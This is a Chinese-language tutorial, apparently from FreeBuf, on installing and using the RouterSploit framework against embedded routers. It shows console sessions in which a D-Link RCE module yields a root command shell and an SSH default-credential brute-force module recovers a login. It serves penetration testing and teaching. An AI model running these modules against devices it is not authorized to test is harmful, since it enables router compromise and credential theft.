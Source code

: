 RouteSploit框架是一款开源的漏洞检测及利用框架，其针对的对象主要为路由器等嵌入式设备。
https://www.freebuf.com/sectool/101441.html
框架功能
RouteSploit框架主要由可用于渗透测试的多个功能模块组件组成，

1、Scanners：模块功能主要为检查目标设备是否存在可利用的安全漏洞；

2、Creds：模块功能主要针对网络服务的登录认证口令进行检测；

3、Exploits：模块功能主要为识别到目标设备安全漏洞之后，对漏洞进行利用，实现提权等目的。

工具安装
sudo apt-get install python-requests python-paramiko python-netsnmp

git clone https://github.com/reverse-shell/routersploit 

./rsf.py


GitHub地址如上命令中所述为：RouteSploit。

操作使用
首先，启动RouteSploit框架，具体如下所示

root@kalidev:~/git/routersploit# ./rsf.py 
 ______            _            _____       _       _ _
 | ___ \          | |          /  ___|     | |     (_) |
 | |_/ /___  _   _| |_ ___ _ __\ `--. _ __ | | ___  _| |_
 |    // _ \| | | | __/ _ \ '__|`--. \ '_ \| |/ _ \| | __|
 | |\ \ (_) | |_| | ||  __/ |  /\__/ / |_) | | (_) | | |_
 \_| \_\___/ \__,_|\__\___|_|  \____/| .__/|_|\___/|_|\__|
                                     | |
     Router Exploitation Framework   |_|

 Dev Team : Marcin Bury (lucyoa) & Mariusz Kupidura (fwkz)
 Codename : Wildest Dreams
 Version  : 1.0.0

rsf > 
1、Scanners 模块
scanners模块，具备设备漏洞扫描功能，通过该模块，可快速识别目标设备是否存在可利用的安全漏洞，下面会以一个dlink路由器为例，结合进行操作描述。

（1）选择scanners模块，操作如下，

rsf > use scanners/dlink_scan
rsf (D-Link Scanner) > show options
（2）显示选项

Target options:

   Name       Current settings     Description                                
   ----       ----------------     -----------                                
   target                          Target address e.g. http://192.168.1.1     
   port       80                   Target port                                
（3）设置目标设备IP

rsf (D-Link Scanner) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
（4）运行模块，执行情况如下，

rsf (D-Link Scanner) > run
[+] exploits/dlink/dwr_932_info_disclosure is vulnerable
[-] exploits/dlink/dir_300_320_615_auth_bypass is not vulnerable
[-] exploits/dlink/dsl_2750b_info_disclosure is not vulnerable
[-] exploits/dlink/dns_320l_327l_rce is not vulnerable
[-] exploits/dlink/dir_645_password_disclosure is not vulnerable
[-] exploits/dlink/dir_300_600_615_info_disclosure is not vulnerable
[-] exploits/dlink/dir_300_600_rce is not vulnerable

[+] Device is vulnerable!
 - exploits/dlink/dwr_932_info_disclosure
如上所呈现的结果，目标设备存在dwr_932_info_disclosure漏洞。接下来，我们选择合适的payload进行传递和测试（以下涉及exploits模块功能操作，如需，请再往下查阅），

6.png

2、Exploits 模块
（1）选择Exploits模块，操作如下，

rsf > use exploits/
exploits/2wire/     exploits/asmax/     exploits/asus/      exploits/cisco/     exploits/dlink/     exploits/fortinet/  exploits/juniper/   exploits/linksys/   exploits/multi/     exploits/netgear/
rsf > use exploits/dlink/dir_300_600_rce
rsf (D-LINK DIR-300 & DIR-600 RCE) > 
我们也可以使用“tab”键来自动补充输入命令。

（2）显示选项

rsf (D-LINK DIR-300 & DIR-600 RCE) > show options

Target options:
   --Name        --Current settings      --Description                                
                             
   --target                              --Target address e.g. http://192.168.1.1     
   --port        --80                    --Target Port
设置选项，操作如下，

rsf (D-LINK DIR-300 & DIR-600 RCE) > set target http://192.168.1.1
[+] {'target': 'http://192.168.1.1'}
（3）运行模块

通过使用“run”或“exploit”命令来完成漏洞的利用，

rsf (D-LINK DIR-300 & DIR-600 RCE) > run
[+] Target is vulnerable
[*] Invoking command loop...
cmd > whoami
root
也可检测目标设备是否存在选定的安全漏洞，操作如下，

rsf (D-LINK DIR-300 & DIR-600 RCE) > check
[+] Target is vulnerable
（4）显示具体漏洞信息

通过“show info”命令，显示漏洞信息，包括其存在的设备品牌、型号、漏洞类型及参考来源，具体参考如下，

rsf (D-LINK DIR-300 & DIR-600 RCE) > show info

Name:
D-LINK DIR-300 & DIR-600 RCE

Description:
Module exploits D-Link DIR-300, DIR-600 Remote Code Execution vulnerability which allows executing command on operating system level with root privileges.

Targets:
- D-Link DIR 300
- D-Link DIR 600

Authors:
- Michael Messner <devnull[at]s3cur1ty.de> # vulnerability discovery
- Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

References:
- http://www.dlink.com/uk/en/home-solutions/connect/routers/dir-600-wireless-n-150-home-router
- http://www.s3cur1ty.de/home-network-horror-days
- http://www.s3cur1ty.de/m1adv2013-003
3、 Creds模块
（1）选择模块

此模块相关文件位于 /routesploit/modules/creds/ 目录下，以下为该模块支持检测的服务，

•	ftp 

•	ssh

•	telnet

•	http basic auth

•	http form auth

•	snmp

在检测过程中，可通过两个层面对上述的每个服务进行检测，

默认服务登录口令检测：利用框架提供的各类路由等设备以及服务的默认登录口令字典，通过快速列举的方式，可在较短时间内（几秒钟）验证设备是否仍使用默认登录口令；

暴力破解：利用框架中所提供的特定账户或者账户列表进行字典攻击。其中包含两个参数（登录账户及密码），如框架/routesploit/wordlists目录中字典所示，参数值可以为一个单词（如’admin’），或者是一整个单词列表。

（2）控制台

rsf > use creds/
creds/ftp_bruteforce         creds/http_basic_bruteforce  creds/http_form_bruteforce   creds/snmp_bruteforce        creds/ssh_default            creds/telnet_default         
creds/ftp_default            creds/http_basic_default     creds/http_form_default      creds/ssh_bruteforce         creds/telnet_bruteforce      
rsf > use creds/ssh_default
rsf (SSH Default Creds) > 
（3）显示选项

5.png

（4）设置目标设备IP

rsf (SSH Default Creds) > set target 192.168.1.53
[+] {'target': '192.168.1.53'}
（5）运行模块

rsf (SSH Default Creds) > run
[*] Running module...
[*] worker-0 process is starting...
[*] worker-1 process is starting...
[*] worker-2 process is starting...
[*] worker-3 process is starting...
[*] worker-4 process is starting...
[*] worker-5 process is starting...
[*] worker-6 process is starting...
[*] worker-7 process is starting...
[-] worker-4 Authentication failed. Username: '3comcso' Password: 'RIP000'
[-] worker-1 Authentication failed. Username: '1234' Password: '1234'
[-] worker-0 Authentication failed. Username: '1111' Password: '1111'
[-] worker-7 Authentication failed. Username: 'ADVMAIL' Password: 'HP'
[-] worker-3 Authentication failed. Username: '266344' Password: '266344'
[-] worker-2 Authentication failed. Username: '1502' Password: '1502'

(..)

Elapsed time:  38.9181981087 seconds
[+] Credentials found!

Login     Password     
-----     --------     
admin     1234         

rsf (SSH Default Creds) > 
＊参考来源：GitHub,FB小编troy编译，转载请注明来自FreeBuf黑客与极客（FreeBuf.COM）